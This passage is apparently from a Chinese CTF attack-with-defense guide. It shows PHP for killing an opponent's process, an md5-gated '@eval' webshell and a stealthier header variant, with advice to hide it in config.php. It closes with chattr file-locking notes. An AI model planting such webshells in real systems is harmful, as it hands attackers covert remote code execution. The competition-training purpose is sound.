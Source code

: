 `<?php`  
`while (1) {`  
`	$pid=1234;`  
`	@unlink('demo.php');`  
`	exec('kill -9 $pid');`  
`}`  
`?>`

先查看进程，查看对应的pid，再执行即可。

素质低的人则会放置一个md5马，比如

`<?php`  
`if(md5($_POST['pass'])=='d8d1a1efe0134e2530f503028a825253')`  
`@eval($_POST['cmd']);`  
`?>`

如果素质低的人又很猥琐，像[rootrain](http://blog.163.com/passw0a_d/blog/static/2508070612017613113859691/)这种就是。那就是利用`header`，最后综合起来就是

`<?php`  
`echo 'hello';`  
`if(md5($_POST['pass'])=='d8d1a1efe0134e2530f503028a825253')`  
`	if (@$_SERVER['HTTP_USER_AGENT'] == 'flag'){`  
`	$test= 'flag';`  
`    header("flag:$test");`  
`}`  
`?>`

放进`config.php`效果最好，因为一般很少人去看这个。

## 简单的维护
将`uploads`等文件夹使用`chattr`对文件底层属性进行控制。

`chattr命令的用法：chattr [ -RVf ] [ -v version ] [ mode ] files…`  
`最关键的是在[mode]部分，[mode]部分是由+-=和[ASacDdIijsTtu]这些字符组合的，这部分是用来控制文件的属性。`  
`+ ：在原有参数设定基础上，追加参数。`  
`- ：在原有参数设定基础上，移除参数。`  
`= ：更新为指定参数设定。`  
`A：文件或目录的 atime (access time)不可被修改(modified), 可以有效预防例如手提电脑磁盘I/O错误的发生。`  
`S：硬盘I/O同步选项，功能类似sync。`  
`a：即append，设定该参数后，只能向文件中添加数据，而不能删除，多用于服务器日志文件安全，只有root才能设定这个属性。`  
`c：即compresse，设定文件是否经压缩后再存储。读取时需要经过自动解压操作。`  
`d：即no dump，设定文件不能成为dump程序的备份目标。`  
`i：设定文件不能被删除、改名、设定链接关系，同时不能写入或新增内容。i参数对于文件 系统的安全设置有很大帮助。`  
`j：即journal，设定此参数使得当通过mount参数：data=ordered 或者 data=writeback 挂 载的文件系统，文件在写入时会先被记录(在journal中)。如果filesystem被设定参数为 data=journal，则该参数自动失效。`  
`s：保密性地删除文件或目录，即硬盘空间被全部收回。`  
`u：与s相反，当设定为u时，数据内容其实还存在磁盘中，可以用于undeletion。`  
`各参数选项中常用到的是a和i。a选项强制只可添加不可删除，多用于日志系统的安全设定。而i是更为严格的安全设定，只有superuser (root) 或具有CAP_LINUX_IMMUTABLE处理能力（标识）的进程能够施加该选项。`  
`应用举例：`  
`用chattr命令防止系统中某个关键文件被修改：`  
`- chattr +i /etc/resolv.conf`  
